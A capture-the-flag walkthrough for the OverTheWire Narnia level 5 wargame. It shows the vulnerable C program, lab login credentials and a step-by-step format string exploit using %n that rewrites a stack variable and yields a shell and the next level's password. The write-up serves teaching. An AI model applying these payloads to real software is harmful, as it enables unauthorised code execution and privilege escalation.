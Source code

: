 ## Login 

` SSH : ssh narnia5@narnia.labs.overthewire.org -p 2226 `
` Pass : Ni3xHPEuuw `

## Solution

First, let’s try to execute the program…

```
$ ssh narnia5@narnia.labs.overthewire.org -p 2226

narnia5@narnia:~$ cd /narnia/
narnia5@narnia:/narnia$ ./narnia5
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [] (0)
i = 1 (0xffffd6d0)
```

So, we need to modify the **i** variable with the value **500**. We also know the address of **i** which is equal to `0xffffd6d0`.
### Source Code

Here is the source code.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
	int i = 1;
	char buffer[64];

	snprintf(buffer, sizeof buffer, argv[1]);
	buffer[sizeof (buffer) - 1] = 0;
	printf("Change i's value from 1 -> 500. ");

	if(i==500){
		printf("GOOD\n");
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
	}

	printf("No way...let me give you a hint!\n");
	printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
	printf ("i = %d (%p)\n", i, &i);
	return 0;
}
```

The issue here is the _snprintf()_ function, as you can see there are no format specifiers. It means that we have a potential **format string** vulnerability here. Let’s try to enter some format specifiers in our input :

```
./narnia5 %x.%x.%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f7fc5000.30303035.3330332e] (26)
i = 1 (0xffffd6d0)
```

Ok, it’s definitly a format string vulnerability. With this kind of issue, we can write where we want in memory as long as we know where. Luckily, the program gives us the address of **i**.

Now, to write something on the stack we’ll use the **%n** specifier. Basically, **%n** write the size of our input at the address pointed by _%n_. For example, the following input : **AAAA%n**, means that we will write the value **4** (because the size of “AAAA” equals 4 bytes) at the address pointed by %n. But, where on the stack **%n** points to ?

Well, let’s say we want to write **4** at **AAAA** (`0x41414141`), we need to find the position of **AAAA** on the stack. To do that we’ll just enter the address followed by some **%x** specifiers :

```
narnia5@narnia:/narnia$ ./narnia5 AAAA%08x.%08x.%08x.%08x.%08x.%08x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA41414141.31343134.31343134.3331332e.33313334.31332e34] (57)
i = 1 (0xffffd6b0)
```

In this case, the address is in the first position on the stack so, the exploit would look like this :

```
narnia5@narnia:/narnia$ ./narnia5 $(python -c 'print "AAAA" + "%1$n"')
Segmentation fault
```

Obviously, it segfault as we try to write the value **4** at a random address. Note the `%1$n`, the **1** specify the position of our address on the stack. If it was on the 3rd postion we would have used `%3$n`.

However we don’t want to write **4**, we want to write **500**. To do that we will use `%<size>$x`, it will serve as padding. Instead of writting our address followed by **496** chars, we’ll use **%496$x**.

Let’s try :

```
narnia5@narnia:/narnia$ ./narnia5 $(python -c 'print "\xc0\xd6\xff\xff" + "%496x%1$n"')
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
BNSjoSDeGL
```

Format strings are more complex than standard buffer overflow. If you are interested, you can read [this Guy's post](https://axcheron.github.io/exploit-101-format-strings/) about this kind of vulnerability.